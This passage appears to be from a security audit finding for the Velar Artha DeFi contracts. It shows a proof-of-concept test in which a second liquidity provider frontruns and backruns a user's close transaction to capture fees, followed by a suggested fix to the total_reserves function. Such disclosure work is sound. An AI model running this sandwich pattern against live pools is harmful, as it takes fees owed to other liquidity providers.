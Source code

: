 ```diff
+    assert not tx.failed
+
+    chain.pending_timestamp += round(datetime.timedelta(weeks=1).total_seconds())    
+
+    # ============= frontrun part
+    mint_token(VEL, d(10_000_000), lp_provider2)
+    mint_token(STX, d(50_000_000), lp_provider2)
+    assert not VEL.approve(core.address, d(10_000_000), sender=lp_provider2).failed
+    assert not STX.approve(core.address, d(50_000_000), sender=lp_provider2).failed
+    mint(VEL, STX, LP, d(10_000_000), d(50_000_000), price=d(5), sender=lp_provider2)
+    # ============= frontrun part
+
+    # ============= user tx
+    tx = close(VEL, STX, 1, price=d(5), sender=long)
+    assert not tx.failed
+    # ============= user tx
+
+    # ============= backrun part
+    lp_amount_lp2 = LP.balanceOf(lp_provider2)
+    burn(VEL, STX, LP, lp_amount_lp2, price=d(5), sender=lp_provider2)
+    # ============= backrun part
+
+    # ============= original lp unstake
+    lp_amount_lp1 = LP.balanceOf(lp_provider)
+    burn(VEL, STX, LP, lp_amount_lp1, price=d(5), sender=lp_provider)
+    # ============= original lp unstake
+
+    lp1_base = VEL.balanceOf(lp_provider) - d(90_000) # ignore the unstaked balance
+    lp1_quote = STX.balanceOf(lp_provider) - d(50_000) # ignore the unstaked balance
+    lp2_base = VEL.balanceOf(lp_provider2)
+    lp2_quote = STX.balanceOf(lp_provider2)
+
+    # allow for small profit
+    lp1_inital_value = d(10_000) * 5 + d(50_000)
+    lp1_value = lp1_base * 5 + lp1_quote # (as quote tokens)
+    lp1_profit = lp1_value - lp1_inital_value # (as quote tokens)
+    assert lp1_profit < 10 # lp1_profit is 6: 1 of base and quote
+
+    # LP2 made a profit
+    lp2_inital_value = d(10_000_000) * 5 + d(50_000_000)
+    lp2_value = lp2_base * 5 + lp2_quote # (as quote tokens)
+    lp2_profit = lp2_value - lp2_inital_value # (as quote tokens)
+    assert lp2_profit > 100 # lp2_profit ~ 120 (as quote tokens)
```





### Mitigation

The contract `pools.vy` should call the `fees.vy` contract and look up the currently outstanding fees inside of the [`total_reserves`](https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/pools.vy#L119-L121) function.
